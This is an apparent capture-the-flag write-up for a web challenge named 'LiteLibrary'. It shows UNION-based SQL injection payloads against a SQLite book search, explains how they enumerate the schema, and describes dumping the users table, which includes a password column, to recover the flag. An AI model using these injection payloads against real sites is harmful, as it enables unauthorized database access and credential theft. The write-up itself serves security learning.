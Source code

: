 # LiteLibrary
> Testing in prod. No worries are long as we are lighte :)

## About the Challenge
We were given a website without the source code, and this website only has 1 functionality which is search book

![preview](images/preview.png)

## How to Solve?
the first vulnerability that comes to my mind is SQL injection. First, I tried UNION-based SQL injection:

```
' UNION SELECT 1,2,3,4,5-- -
```

![sqli](images/sqli.png)

And then i tried to dump the table structure using this payload

```
' UNION SELECT 1,2,3,(SELECT sql FROM sqlite_schema limit),5-- -
```

There are 2 tables here:

* CREATE TABLE BOOKS (title TEXT, author TEXT, pages TEXT, imageLink TEXT, link TEXT)
* CREATE TABLE USERS (liteId TEXT, liteUsername TEXT, gender TEXT, liteNick TEXT, litePass TEXT, dateCreated TEXT)

![table](images/table.png)

And then dump everything using `group_concat()` function and we can get the flag inside `liteNick` columns

![flag](images/flag.png)

```
nite{t00_l1t3_huh_50m30n3_g37_an71_g2av17y_0v3r_h3r3}
```